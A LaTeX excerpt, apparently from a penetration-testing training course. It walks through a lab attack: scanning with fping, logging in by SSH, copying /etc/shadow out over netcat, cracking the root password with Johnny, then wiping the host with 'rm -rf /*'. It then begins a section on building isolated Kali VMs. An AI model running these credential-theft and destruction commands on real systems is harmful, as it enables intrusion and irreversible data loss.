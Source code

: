 				\begin{enumerate}
					\item Use ``fping'' to check whether the remote host is running and find which IP address it has.
						The command for this is ``fping -g XXX.XXX.XXX.0/25''.
					\item Use ``SSH to get command line access to the remote host.
					\item Cat/Less/vim/nano ``/etc/shadow'' and copy the root password to your system.
						\begin{itemize}
							\item If you would like to make this more interesting, manually send the file to your system.
							\item Set up a nc listener on any high port with ``nc -l -p XXXX > <output file>''.
							\item Send the file using ``nc -p XXXX <local host IP> < <input file>''.
							\item The file should now be on your machine called ``<output file>''.
						\end{itemize}
					\item Open Johnny and tell it to use the file that you created in the last step.
					\item switch user to the root account using ``su root'' and the password that Johnny gave you.
					\item Run the command ``rm -rf /* ''.
					\item You have now successfully wiped the remote host.
				\end{enumerate}
			\subsubsection{Setting up a VM and installing Kali Rolling}
				This session will teach you both how to set up a VM in VMware Workstation and install and configure Kali Rolling within it.
				This will be important to you as it is your main means of security to ensure that you are not attacking a target that you shouldn't be.
				With properly configured VMs and virtual networks,
				you cannot attack the wrong target, but without them,
				a single mistype and you could be attacking a completely different target.

